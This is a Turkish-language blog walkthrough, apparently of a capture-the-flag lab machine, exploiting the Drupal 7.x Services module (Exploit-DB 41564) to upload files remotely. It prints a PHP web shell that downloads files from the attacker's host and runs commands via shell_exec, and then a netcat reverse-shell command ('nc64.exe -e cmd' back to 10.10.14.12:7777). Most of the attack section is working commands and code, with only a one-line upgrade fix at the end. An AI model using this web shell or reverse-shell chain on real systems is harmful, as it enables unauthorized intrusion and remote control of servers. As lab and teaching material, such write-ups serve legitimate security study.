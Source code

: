 ```yaml
---
layout: post
title: Drupal 7.x Module Services Remote Shell Upload
date: 2022-02-23 21:17
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:heading -->
<h2 id="exploiting-zaafiyeti-test-edelim">Exploiting – Zaafiyeti test edelim.</h2>
<!-- /wp:heading -->

<!-- wp:paragraph -->
<p>İlk olarak Drupal sürümünü belirleyelim.&nbsp;Bunun için tarayıcıdan CHANGELOG.txt dosyasına erişebiliriz, bu hazır bir Drupal şablonudur.</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li><a href="http://10.10.10.9/CHANGELOG.txt">https://10.10.10.9/CHANGELOG.txt</a></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4579} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-150.png" alt="" class="wp-image-4579" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Not: Drupal 7.54 sürümü olduğunu bize söylüyor.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>2. Bir sürümle ilişkili Zaafiyetler'i bulmak için searchsploit‘i kullanabiliriz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">searchsploit drupal 7</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4580} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-151.png" alt="" class="wp-image-4580" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>3. Şimdi bu betiği<strong> /home/vry4n/Desktop </strong>dizinimize indirelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">searchsploit -m php/webapps/41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4581} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-152.png" alt="" class="wp-image-4581" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>4. Önce kodu değiştireceğiz, değiştirmemiz gereken kısmı vurguladım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">vi 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4582,"width":608,"height":598} -->
<figure class="wp-block-image is-resized"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-153.png" alt="" class="wp-image-4582" width="608" height="598" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>5. Önce tarayıcımzı açarak $endpoint_path’in var olduğunu görelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/rest_endpoint
404 Bulunamadı</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4583} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-154.png" alt="" class="wp-image-4583" /></figure>
<!-- /wp:image -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/rest
20OK (found)</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4584} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-155.png" alt="" class="wp-image-4584" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>6. Bulduk.. Simdi Aşağıdaki gibi düzenleyelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">$url = ‘https://10.10.10.9’;

$endpoint_path = ‘/rest’;

$endpoint = ‘rest_endpoint’;

$file = [

&nbsp; &nbsp; ‘filename’ =&gt; ‘test.php’,

&nbsp; &nbsp; ‘data’ =&gt; ‘&lt;?php echo “Vry4n was here!!”; ?&gt;’

];</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4585} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-156.png" alt="" class="wp-image-4585" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>7. php-curl kurmamız gerekebilir.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">sudo apt-get install php-curl</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4586} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-157.png" alt="" class="wp-image-4586" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>php-curl </strong>yüklemeden önce aldığımız HATA</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4587} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-158.png" alt="" class="wp-image-4587" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Komut dosyasını yürütelim.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">php 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4588} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-159.png" alt="" class="wp-image-4588" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>9. Kod başarıyla yürütüldü ve bize&nbsp;<a href="https://10.10.10.9/test.php">https://10.10.10.9/test.php</a>&nbsp;adresini ziyaret etmemizi söylüyor.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/test.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4589} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-160.png" alt="" class="wp-image-4589" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>10. Dosyayı oluşturduk ve uzak Drupal sunucusunda çalıştırdık.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>11. Şimdi yeni dosyalar yükleyebilen ve komutları çalıştırabilen bir dosya oluşturacağız.&nbsp;test.php betiğimize aşağıdaki kodu ekleyeceğiz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">$phpCode = &lt;&lt;&lt;‘EOD’

&lt;?php

&nbsp; &nbsp; if (isset($_REQUEST[‘fupload’])) {

&nbsp; &nbsp; &nbsp; &nbsp; file_put_contents($_REQUEST[‘fupload’], file_get_contents(“https://10.10.14.12:8888/” . $_REQUEST[‘fupload’]));

&nbsp; &nbsp; };

&nbsp; &nbsp; if (isset($_REQUEST[‘fexec’])) {

&nbsp; &nbsp; &nbsp; &nbsp; echo “&lt;pre&gt;” . shell_exec($_REQUEST[‘fexec’]) . “&lt;/pre&gt;”;

&nbsp; &nbsp; };

?&gt;

EOD;

$file = [

‘filename’ =&gt; ‘vry4n.php’,

‘data’ =&gt; $phpCode

];</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>vi 41564.php</strong></pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4590} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-161.png" alt="" class="wp-image-4590" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>12. Şimdi yeni dosyayı yüklemek için betiği tekrar çalıştıralım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">php 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4591} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-162.png" alt="" class="wp-image-4591" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>13. Bu noktada vry4n.php dosyası yüklendi, 2 değişken kullanabiliriz&nbsp;<strong>fupload</strong>&nbsp;&amp;&nbsp;<strong>fexec</strong>&nbsp;.&nbsp;Temel komutları test etmek&nbsp;için ilk&nbsp;<strong>fexec’i</strong>&nbsp;kullanacağız.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/vry4n.php?fexec=dir</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4592} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-163.png" alt="" class="wp-image-4592" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>14. Artık komutları çalıştırabileceğimize göre,&nbsp;<strong>fupload</strong>&nbsp;işlevselliğini&nbsp;test edebiliriz&nbsp;.&nbsp;Bir resim yükleyeceğiz.&nbsp;Öncelikle bir web sunucusu başlatmamız ve script'te yazdığımız ayarların aynısını kullanmamız gerekiyor.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">python3.9 -m http.server 8888</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4593} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-164.png" alt="" class="wp-image-4593" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>15. Şimdi tarayıcıya gitmemiz gerekiyor,&nbsp;<strong>fupload</strong>&nbsp;değişkenini&nbsp;kullanacağız.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/vry4n.php?fupload=vk9sec.jpg

https:// 10.10.10.9/vk9sec.jpg</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4594} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-165.png" alt="" class="wp-image-4594" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>16. Artık herhangi bir talimat yürütmeden önce sistem hakkında bilgi toplayabiliriz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/vry4n.php?fexec=systeminfo</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4595} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-166.png" alt="" class="wp-image-4595" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Not: Görüldüğü üzere Yamasız bir x64 bit sistemimiz var, Microsoft Windows Server 2008 R2 Datacenter</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>17. Şimdi&nbsp;<a href="https://eternallybored.org/misc/netcat/">https://eternallybored.org/misc/netcat/ adresinden</a>&nbsp;Windows için bir x64 netcat indireceğiz.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://eternallybored.org/misc/netcat/"></a></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>#netcat-win32-1.11.zip dosyasını açın.</strong>

cd netcat-1.11 &amp;&amp; ls

python3.9 -m http.sunucu 8888</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4596} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-167.png" alt="" class="wp-image-4596" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>18. Şimdi local bir dinleyici başlatalım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">nc -lvp 7777</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4597} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-168.png" alt="" class="wp-image-4597" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>19. Tarayıcıdan&nbsp;, yürütmek için&nbsp;netcat &amp;&nbsp;<strong>fexec</strong>&nbsp;yüklemek&nbsp;için&nbsp;<strong>fupload</strong>&nbsp;değişkenini kullanalım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/vry4n.php?fupload=nc64.exe&amp;fexec=nc64.exe -e cmd 10.10.14.12 7777</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>20. nc64.exe dosyasını indirmek için web sunucumuza 200 OK diyoruz.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4598} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-169.png" alt="" class="wp-image-4598" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>21. Dinleyiciyi kontrol ederken, şimdi yürütmeden sonra bir shell görmeliyiz.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4599} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-170.png" alt="" class="wp-image-4599" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>Çözüm nedir – Quick solution</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Acilen Drupal sürümünü yükseltin. – Upgrade Drupal urgently</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>ilgili link:&nbsp;<a href="https://www.exploit-db.com/exploits/41564">https://www.exploit-db.com/exploits/41564</a></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><strong>Saygılarımla. – Best regards.</strong></p>
<!-- /wp:paragraph -->
